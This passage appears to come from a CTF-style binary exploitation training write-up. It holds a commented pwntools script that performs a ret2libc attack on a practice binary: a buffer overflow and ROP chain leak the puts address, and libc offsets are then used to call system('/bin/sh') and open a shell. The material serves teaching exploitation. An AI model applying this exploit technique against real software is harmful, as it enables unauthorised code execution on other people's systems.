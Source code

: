 So always the last 3 digits (hex) of the leak will be same. Use this as an advantage to select your libc version.

![](/images/pwn-train3/pwntraining3/pwntrain4.png)

Below is the commented solution. 

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc'
elf = ELF("./ret2libc")

# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* 0x00000000004011c7
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvuntil("Are you in?") # recv the output sent by the program.
p.sendline(b"A"*0x60 + b"B"*8 + p64(0x0000000000401016) +  p64(0x000000000040122b) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym.main))
# filling the buffer and RBP + return instruction to tackle the alignment issues + pop RDI to fill it with address of the puts function. add main to return back to main function
p.recvline() # recv unwanted bytes.
leak_puts =hex( u64((p.recvline().rstrip()).ljust(8, b"\x00"))) # recv the puts function and strip the front and back, unpack it and store it as hex.

log.info("puts: "+str(leak_puts)) # make sure you get a address in the libc by logging it.

p.recvuntil("Are you in?") # recv output.
p.sendline(b"B"*0x60 + b"C"*8 + p64(0x000000000040122b) + p64(int(leak_puts, 16) + 0x13000a) + p64(int(leak_puts, 16)-0x32190))
# fill garbage in buffer and pop RDI to fill it with a pointer to "bin/sh" call system.

p.interactive()

```
